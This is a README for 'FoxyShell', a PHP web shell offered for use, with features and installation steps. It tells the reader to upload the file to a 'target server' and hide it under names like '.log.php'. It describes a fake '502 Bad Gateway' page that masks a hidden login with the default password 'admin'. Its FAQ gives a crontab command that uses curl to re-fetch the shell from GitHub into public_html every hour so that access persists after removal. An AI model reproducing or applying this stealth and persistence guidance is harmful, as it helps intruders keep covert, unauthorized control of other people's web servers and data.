

# FoxyShell – Pure PHP Web Shell

**FoxyShell** is a Pure Shell with, feature-packed **PHP web shell** that can be accessed through a simple interface, offers a pleasant UI.


---

## Table of Contents

1. [Features](#features)  
2. [Installation](#installation)  
3. [Usage](#usage)  
4. [Security Recommendations](#security-recommendations)  
5. [FAQ](#faq)  
6. [Credits](#credits)

---

## Features

| Feature             | Description                                                                               |
|---------------------|-------------------------------------------------------------------------------------------|
| **Rename**          | Inline rename of files.                                                                    |
| **New File/Folder** | Quickly create files or folders on the server.                                            |
| **Upload**          | Upload files directly via the interface.                                                  |
| **Inline Editor**   | Edit file contents directly in the browser, then save changes to the server.              |
| **Copy File/Folder**      | Can copy files and folders very simply.                                      |
| **Bulk Copy**       | Can copy files and folders in bulk very easily, thanks to PHP                             |
| **Stealth**         | Can be hidden (e.g., rename to .sec.php), e.g. `foxypure.php` → `.sec.php`.            |
| **Safety**         | If someone opens `https://example.com/foxyshell.php` then the display that is displayed is `502 Bad Gateway`, with Hidden Admin Login, `admin` is default password. |

**Main Selling Points**

- **Works** even if some standard functions (```exec```, ```shell_exec```, ```popen```) are disabled, thanks to alternative methods.  
- **Attractive UI**: Tailwind CSS-based, icons, truncated filenames, etc.  
- **One-file solution**: just upload ```foxypure.php``` to your target server, or hide it (e.g. ```.log.php```).  
---

## Installation

1. **Upload** the single file ```foxypure.php``` to your server.  
2. (Optional) **Hide** it by renaming to a dotfile such as ```.log.php``` or something less conspicuous.  
3. Ensure **permissions** are correct so the script can read/write files on the server.

---

## Usage

1. **Open** the script in your browser, e.g. ```https://example.com/foxypure.php```.  
2. If you’ve **secured** it with an API key or HTTP Auth, provide those credentials.  
3. Once loaded, you’ll see:
   - **Sidebar** with Refresh, Upload, New File/Folder, and the file list.  
   - **Breadcrumb** to navigate directories.  
   - **Editor** to load and modify a file.  
   - **ETC**

## Security Recommendations

- **Restrict Access**: Put this behind **HTTP Basic Auth** or an IP whitelist.  
- **Use HTTPS**: If possible, always run over HTTPS to avoid exposing commands in plaintext.  
- **Rename** to something less obvious (e.g., ```.log.php``` or ```upload-handler.php```).  
- **Log** suspicious IP addresses or set honeypot triggers if you want advanced security.

---

## FAQ

**Q**: What if ```exec```, ```popen``` and ```shell_exec``` are disabled in ```php.ini```?  
**A**: FoxyShell works using pure PHP, thanks to PHP, this Shell will still work even if EXEC has been disabled, no CMD/Command feature – but the file manager, upload, rename, etc., still work.

**Q**: How do I create folders that start with a dot?  
**A**: Just Click ```New folder```.

**Q**: Does the shell require a database?  
**A**: No. It’s a single ```.php``` file – no database or external dependencies needed.

**Q**: How can I always have access even if the shell file has been deleted?  
**A**: You can use crontab to automatically create a shell file in `/public_html/` every hour.

#
Example: (change ```name.php``` and ```username``` according to the server and file name you want)
```
(crontab -l 2>/dev/null; echo "0 * * * * /usr/bin/curl -s \"https://raw.githubusercontent.com/rubahilang/FoxyShell-Pure-PHP/refs/heads/main/foxypure.php\" -o /home/username/public_html/name.php") | crontab -
```
---

## Credits

For further questions, please contact [rubahilang@gmail.com](mailto:rubahilang@gmail.com).
#
Made with ❤️ by **RubahIlang**  
